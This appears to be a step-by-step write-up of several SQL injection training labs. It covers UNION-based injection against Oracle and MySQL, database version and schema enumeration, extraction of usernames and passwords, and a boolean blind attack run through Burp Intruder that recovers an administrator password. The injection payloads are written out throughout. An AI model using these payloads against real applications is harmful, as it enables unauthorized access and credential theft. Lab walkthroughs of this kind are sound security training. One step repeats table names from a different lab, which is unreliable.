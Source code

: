 **Step 1**

Checking number of columns. As done in previous lab

**Step 2**

Inserting string to find a column that support String injection.

Now trying in second column

And we found the column

**Step3**

Now we don’t know which database is this so first we uses this query

`' UNION SELECT username || '~' || password FROM users--`

This is use to insert username and password concatenated in oracle database.

Modify the query to

`' UNION SELECT NULL,username || '~' || password FROM users--`

The result show this is an oracle database. And the query executed successfully

**Step4:**

Search for administrator in response

Now login with give credential. And lab will be solve.

**Step1**

Check number of column

**Step2**

Check in which column we can insert

Here we are able to insert in both column

**Step3**

Now we use this payload

`' UNION SELECT @@version--`

Modify query to

`' UNION SELECT @@version,NULL#`

Or

`' UNION SELECT NULL,@@version#`

Encode it to URL

And we have the answer

**Step 1:**

Click on any catrgories

Send this request to repeater

**Step2**

First we check number of column

Here we have 2 column

**Step3**

Checking in which we can insert query

We can insert query in both column

**Step4**

Listing all availble tabel using

`SELECT * FROM information_schema.tables`

Modify query to

`'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`

Here is the response of query, we have a table

**Step5**

We will get knowledge of column

Query

`'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_lctwqx'--`

In response we can see column name for username and password

**Step 6**

`' UNION SELECT username_qgkbjp, password_qrfngy FROM users_lctwqx--`

Using this query to extract all username and password

Now login with this credential and lab will be solve.

**Step 1:**

Click on any catrgories

**Step2:**

Send this request to repeater

**Step3**

Check number of column

Using:`'UNION SELECT NULL,NULL FROM DUAL--`

Now check point of insertion

`'UNION SELECT 'a','a' FROM DUAL--`

So we can insert in both column

**Step4**

To list all content we use

`SELECT * FROM all_tables`

Modify query to

`'+UNION+SELECT+table_name,+NULL+FROM+all_tables--`

In response we can see table users_mcujaa

**Step5**

We will get knowledge of column

Query

`' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'USERS_MCUJAA' --`

In response we have two column

RESPONSE

**Step 6**

`' UNION SELECT username_qgkbjp, password_qrfngy FROM users_lctwqx--`

Using this query to extract all username and password

**Step1**

Click on any categories

**Step2**

Sending request to repeater

**Step3**

Checking where welcome back message is shown by using the true condition and then using false condition
```
…xyz' AND '1'='1  
…xyz' AND '1'='2
```

Response

Now check using false condition

Response

As it is clear that we can inject query because there is a point of injection

**Step 4**

Now we know

Table:user

Column :username and password.

So first we extract first letter of password using

`' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a`

If result is welcome back then we say that first letter correct

For this we use intruder

We select 't and apply a payload

The attack type is snipper

This is payload setting

Now we have extracted password for our first character which is 1

Because the length is different from other

And if I use

`' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='1`

In repeater the response contain welcome message.

**Step5**

Now we find password for all index. To do it fast we use cluster bomb attack by selecting both index and charater

Payload setting

Payload 2

Apply filter welcome and we will have character that having response welcome with their corresponding indexes.

1 6 8 o y c 4 s k s g 4 w c l 3 7 5 0 w

1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20

**Password:168oyc4sksg4wcl3750w**

